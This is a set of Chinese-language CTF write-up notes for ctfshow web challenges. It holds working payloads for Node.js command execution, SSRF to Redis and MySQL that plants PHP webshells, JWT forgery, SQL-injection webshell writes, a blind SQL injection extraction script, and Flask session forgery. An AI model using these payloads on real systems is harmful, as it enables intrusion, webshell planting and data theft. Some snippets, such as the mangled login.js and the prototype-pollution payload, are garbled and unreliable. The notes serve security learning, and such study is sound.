

## node.js

### web334

下载源码，改后缀zip然后解压

账号密码在use.js

然后注意login.js里面的

```text
var findUser = function(name, password){
  return users.find(function(item){
    return name!**'CTFSHOW' && item.username **= name.toUpperCase() && item.password === password;
  });
};
```

使用大小写绕过

### web335

试了一下/?eval=能执行命令但是js的Nodejs的RCE还没学过

```text
子进程child_process
?eval=require("child_process").execSync('ls')

?eval=require('child_process').execSync('ls').toString()

?eval=require("child_process")['exe'%2B'cSync']('ls')

?eval=require('child_process').spawnSync( 'ls', [ './' ] ).stdout.toString()
#.stdout.toString() 从输出流中读取结果。
？eval=global.process.mainModule.constructor._load('child_process').execSync('ls')
```

```text
//读文件夹，读文件函数fs库
?eval=require('fs').readdirSync(".")
?eval=require('fs').readFileSync('./fl00g.txt','utf8');
```

### web336

不知道过滤了啥反正这个能用

```text
?eval=require('fs').readdirSync(".")
?eval=require('fs').readFileSync('./fl00g.txt','utf8');
```

测试了亿下下，应该是exec的问题

```text
?eval=require("child_process")['exe'%2B'cSync']('ls')
?eval=require('child_process').spawnSync('ls', ['./'] ).stdout.toString()
这个能读目录
?eval=eval(Buffer.from("cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWNTeW5jKCdjYXQgZmwwMDFnLnR4dCcp",'base64').toString('ascii'))这个也能绕
Buffer.from：将 Base64 字符串还原为原始文本。
```

### web337

```text
数组绕过?a[]=1&b[]=1
```

### web338

看到login.js

```text
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');

/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body); 
  if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
  
  
});

module.exports = router;
```

需要一个secert.ctfshow==='36dboy'才能获得flag，我们怎么弄到这个类呢

我们注意到有两个空类secert = {}和user = {}，以及一个utils.copy(user,req.body);

我们可以打原型链污染，我对于"proto"的理解就是，把它塞进空的地方，比如说我们这个{"proto":{"ctfshow":"36dboy"}}

他就会自己塞到secert = {}；

```text
原型链污染
{"proto":{"ctfshow":"36dboy"}}
```

## SSRF

### web351-2

```text
POST：url=http://127.0.0.1/flag.php
```

### web353

```text
16进制绕过127->0x7f
url=http://0x7f.0.0.1/flag.php
```

### web354

```text
过滤了0和1，可以把域名解析到127.0.0.1
http://safe.taobao.com/
http://114.taobao.com/
http://wifi.aliyun.com/
http://imis.qq.com/
http://localhost.sec.qq.com/
http://ecd.tencent.com/
http://sudo.cc/
```

### web355

域名小于5个

```text
直接url=http://0/flag.php
```

### web356

现在是小于3个，还是头上的payload

### web357

等个服务器

### web358

正则

```text
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```

就是要有ctf和show

```text
url=http://ctf.@127.0.0.1/flag.php#show
或者把#换成?
当parse_url()解析到邮箱时：@前面是user
file_get_contents()会访问host:port/path，与user无关
```

### web359

看关键词打无密码的mysql

查找一下ssrf和无密码的mysql找到**gopher协议**

找到Gopherus工具

```text
cd Gopherus
./gopherus.py --help
./gopherus.py --exploit mysql
root
select '<?php eval($_POST[cmd]);?>' into outfile '/var/www/html/cmd.php';
```

### web360

最后一个了，题目提示了打redis

**dict协议功能：**

1、探测内网主机

2、探测端口的开放情况和指纹信息

3、执行命令

```text
dict://127.0.0.1:6379
dict://127.0.0.1:6379/info    #先看需不需要认证,发现不用
dict://127.0.0.1:6379/config:set:dir:/var/www/html  #定位到根目录
dict://127.0.0.1:6379/set:shell:"\x3c\x3f\x70\x68\x70\x20\x65\x76\x61\x6c\x28\x24\x5f\x50\x4f\x53\x54\x5b\x31\x5d\x29\x3b\x3f\x3e" 
#为了给空格绕过掉所以使用16进制，<?php eval($_POST[1]);?>
dict://127.0.0.1:6379/config:set:dbfilename:1.php #创建的文件
dict://127.0.0.1:6379/save   #保存

然后就是在/1.php找flag
```

然后还有方法二

利用**gopher协议，和上一题的工具**



然后进去就行了

## JWT

### web345

抓包，然后F12有个/admin

```text
auth=eyJhbGciOiJOb25lIiwidHlwIjoiand0In0.W3siaXNzIjoiYWRtaW4iLCJpYXQiOjE3NDUxNTQ3MDksImV4cCI6MTc0NTE2MTkwOSwibmJmIjoxNzQ1MTU0NzA5LCJzdWIiOiJ1c2VyIiwianRpIjoiNDcwNGU4YTQwZGZhN2NlZmQxYmQyYzBiOWI1ZmY0MDkifV0（因为题目说了JWT
```

解码得到

```text
{"alg":"None","typ":"jwt"}[{"iss":"admin","iat":1745154709,"exp":1745161909,"nbf":1745154709,"sub":"user","jti":"4704e8a40dfa7cefd1bd2c0b9b5ff409"}]
```

然后把user改为admin然后编码改数据，然后访问/admin/

**至于为什么访问/admin/而不是/admin，因为访问/admin表示访问admin.php而访问/admin/表示访问的是admin目录下默认的index.php**

### web346

爆破密钥，密钥是123456

### web347

弱口令爆破密钥，密钥是123456

### web348

爆破密钥aab

### web349

给了app.js，发现公钥和私钥可下载，找到jwt伪造直接开搞

### web350

利用漏洞，修改算法从 非对称算法（比如RS256） 到 对称密钥算法（HS256）  
双方都使用公钥验签，顺利篡改数据

```text
脚本
import jwt

jwt_payload={
  "user": "admin",
  "iat": 1732026296
}

pub=open("C:\\Users\\w的飞行日记\\Downloads\\public.key","rb").read()
jwt_headers={
  "alg": "HS256",
  "typ": "JWT"
}

jwt_token=jwt.encode(jwt_payload,key=pub,algorithm='HS256',headers=jwt_headers,)

print(jwt_token)
```

## 新手杯

### easy_eval

```text
<?php
error_reporting(0);
highlight_file(__FILE__);

$code = $_POST['code'];

if(isset($code)){

  $code = str_replace("?","",$code);
  eval("?>".$code);

}
code=<script language="php">system("cat /f*");</script>

我们知道php有好几种写法比如
<? ... ?>                               需在 php.ini 中开启 short_open_tag=On（默认关闭）
<?= ... ?>                              直接输出内容，等效于 <?php echo ...; ?>
<% ... %>                               需在 php.ini 中开启 asp_tags=On（默认关闭）。
<script language="php"> ... </script>   类似 HTML 脚本标签，但已被 PHP 7.0+ 移除。
显而易见就只有第四种了
```

### baby_pickle

先下文件

```text
这个是首页
如果给name赋值，name`被设置为"test"，全局`id`递增
创建`Rookie`对象，然后序列化并保存到"test_info"文件中。
@app.route("/")
def agent_show():
    global id
    id = id + 1

    if request.args.get("name"):
        name = request.args.get("name")
    else:
        name = "new_rookie"

    new_rookie = Rookie(name, id)
    try:
        file = open(str(name) + "_info", 'wb')
        info = pickle.dumps(new_rookie, protocol=0)
        info = pickletools.optimize(info)
        file.write(info)
        file.close()
    except Exception as e:
        return "error"

    with open(str(name)+"_info", "rb") as file:
        user = pickle.load(file)

    message = "<h1>欢迎来到新手村" + user.name + "</h1>\n<p>" + "只有成为大菜鸡才能得到flag" + "</p>"
    return message
```

```text
重要的是
@app.route("/dacaiji")
def get_flag():
    name = request.args.get("name")
    with open(str(name)+"_info", "rb") as f:
        user = pickle.load(f)

    if user.id != 0:
        message = "<h1>你不是大菜鸡</h1>"
        return message
    else:
        message = "<h1>恭喜你成为大菜鸡</h1>\n<p>" + flag + "</p>"
        return message
```

id=0就能出flag

```text
然后看到
@app.route("/change")
def change_name():
    name = base64.b64decode(request.args.get("name"))
    newname = base64.b64decode(request.args.get("newname"))
#从 URL 参数中获取 name 和 newname，并解码为原始字节（例如 name=MQ== → b"1"）。
    file = open(name.decode() + "_info", "rb")
    info = file.read()
    print("old_info **=****=****=****=**")
    print(info)
    print("name **=****=****=****=**")
    print(name)
    print("newname **=****=****=****=**")
    print(newname)
    info = info.replace(name, newname)
    print(info)
    file.close()
    with open(name.decode()+ "_info", "wb") as f:
        f.write(info)
    return "success"#直接替换文件中所有匹配 name 字节的位置为 newname 字节。如果文件内容包含 b"1"，则替换为 b"0"。
```

在/changel路由会进行name和newname的交换

总的来说就是，我们先需要给name赋值，然后在/change路由给name和newname的值交换一下

```text
本地测试了一下
import requests
import base64
url="http://127.0.0.1:8888/"
requests.get(url+'?name=abc')
requests.get(url+'change?name='+base64.b64encode(b'abc').decode()+'&newname='+base64.b64encode(b"abc\nsVid\nI0\nsb.").decode())
r = requests.get(url+'dacaiji?name=abc')
print(r.text)
把abc改为abc\nsVid\nI0\nsb.
```

```text
效果如下
old_info **=****=****=****=**
b'ccopy_reg\n_reconstructor\n(c__main__\nRookie\nc__builtin__\nobject\nNtR(dVname\nVabc\nsVid\nI2\nsb.'
name **=****=****=****=**
b'abc'
newname **=****=****=****=**
b'abc\nsVid\nI0\nsb.'
b'ccopy_reg\n_reconstructor\n(c__main__\nRookie\nc__builtin__\nobject\nNtR(dVname\nVabc\nsVid\nI0\nsb.\nsVid\nI2\nsb.'
成功污染，然后换靶机地址就行
```

## 黑盒测试

### web380

```text
扫一下目录，存在 flag.php 和 page.php
然后/page.php?id=1  看报错有个file_get_contents函数 这应该是有个文件包含漏洞
/page.php?id=flag这样就行了
```

### web381

```text
查看源码
在 /alsckdfy
```

### web382/3

```text
1' or 1 #  万能密码
```

### web384

```text
两位字母三个数字直接爆破密码  xy123  账号猜测admin
```

### web385

```text
扫目录 install，/install/?install重置账号和密码
回到之前382那边sqlmap注入一下得到密码
admin admin888
```

## 文件包含

### web79

```text
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

过滤了php,那我们可以利用伪协议与base64绕过

```text
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=
PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs ===> <?php system('cat flag.php');
```

### web80

两种方法，

```text
1.日志包含，ua头改一句话木马
2.通过大小写绕过进行伪协议?file=PhP://input然后构造一句话木马
```

## 堆叠注入

```text
password=;select 0x3c3f706870206576616c28245f504f53545b315d293b3f3e into outfile "/var/www/html/1.php";%23 &username=admin\
```

写马

## 布尔盲注

```text
import requests
import string

URL = "http://572fe0c5-f664-4d7c-a5c2-c372d1791aa6.challenge.ctf.show/login.php"

FAIL = "script" # 登录失败时的响应头

def send_payload(payload):
    data = {
        "username": payload,
        "password": "1111"
    }
    resp = requests.post(URL, data=data, allow_redirects=False)
    return resp.text.find(FAIL) == -1

def get_length(payload_template, min_len=1, max_len=100):
    for l in range(min_len, max_len):
        payload = payload_template.format(l)
        if send_payload(payload):
            return l
    return None

def get_string(payload_template, length):
    result = ""
    chars = string.ascii_letters + string.digits + "_{}@.-,! "
    for i in range(1, length+1):
        for c in chars:
            payload = payload_template.format(i, c)
            if send_payload(payload):
                result += c
                print(f"\r{result}", end="", flush=True)
                break
    print()
    return result

def get_table_names():
    length=get_length("admin' and (select length(group_concat(table_name)) from information_schema.tables where table_schema=database())={};#---")
    print(length)
    names=get_string("admin' and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))=ascii('{}');#---",length)
    print(names.split(','))
    return names.split(',')

def get_column_names(table):
    length=get_length(f"admin' and (select length(group_concat(column_name)) from information_schema.columns where table_name='{table}')={{}};#---")
    print(length)
    names=get_string(f"admin' and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='{table}'),{{}},1))=ascii('{{}}');#---",length)
    return names.split(',')

def get_field(table,column,row=0):
    length=get_length(f"admin' and (select length({column}) from {table} limit {row},1)={{}};#---",max_len=256)
    print(length)
    if length is None:
        print(f"[!] Cannot determine length for {column} in {table} row {row}, skipping.")
        return ""
    name=get_string(f"admin' and ascii(substr((select {column} from {table} limit {row},1),{{}},1))=ascii('{{}}');#---",length)
    return name

if __name__=="__main__":
    tables=get_table_names()
    for table in tables:
        columns = get_column_names(table)
        for col in columns:
            for row in range(2):
                get_field(table, col, row)
```

## Flask_Session伪造

file:///app/app.py读源码

```text
# encoding:utf-8
import re, random, uuid, urllib.request
from flask import Flask, session, request

app = Flask(__name__)
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*100)
print(app.config['SECRET_KEY'])
app.debug = False

@app.route('/')
def index():
    session['username'] = 'guest'
    return 'CTFshow 网页爬虫系统 <a href="/read?url=https://baidu.com">读取网页</a>'

@app.route('/read')
def read():
    try:
        url = request.args.get('url')
        if re.findall('flag', url, re.IGNORECASE):
            return '禁止访问'
        res = urllib.request.urlopen(url)
        return res.read().decode('utf-8', errors='ignore')
    except Exception as ex:
        print(str(ex))
    return '无读取内容可以展示'

@app.route('/flag')
def flag():
    if session.get('username') == 'admin':
        return open('/flag.txt', encoding='utf-8').read()
    else:
        return '访问受限'

if __name__=='__main__':
    app.run(
        debug=False,
        host="0.0.0.0"
    )
```

session中username必须为admin才能获取flag

使用下面脚本获取随机数

```text
import requests
import uuid
import random
import os

url = ""

def get_randStr():
    response = requests.get(url + "read?url=file:///sys/class/net/eth0/address")
    mac = response.text.strip()
    temp = mac.split(':')
    temp = [int(i,16) for i in temp]
    temp = [bin(i).replace('0b','').zfill(8) for i in temp]
    temp = ''.join(temp)
    mac = int(temp,2)
    random.seed(mac)
    randStr = str(random.random()*100)
    return randStr

if __name__ == '__main__':
    randStr = get_randStr()
    print("Random String:", randStr)
```

`/sys/class/net/eth0/address` 是 Linux 的 MAC 地址文件

```text
D:\Download\flask-session-cookie-manager-master\flask-session-cookie-manager-master>python flask_session_cookie_manager3.py decode -c "eyJ1c2VybmFtZSI6Imd1ZXN0In0.aRnb1w.9M74PL2bw6RBk3FcUD5MA-XQ7R8" -s "18.743688974575345"
{'username': 'guest'}

D:\Download\flask-session-cookie-manager-master\flask-session-cookie-manager-master>python flask_session_cookie_manager3.py encode -t "{'username': 'admin'}" -s "18.743688974575345"
eyJ1c2VybmFtZSI6ImFkbWluIn0.aRnfxA.af-ilpIl7eIbAcO_HVgHpzNDWUo
```
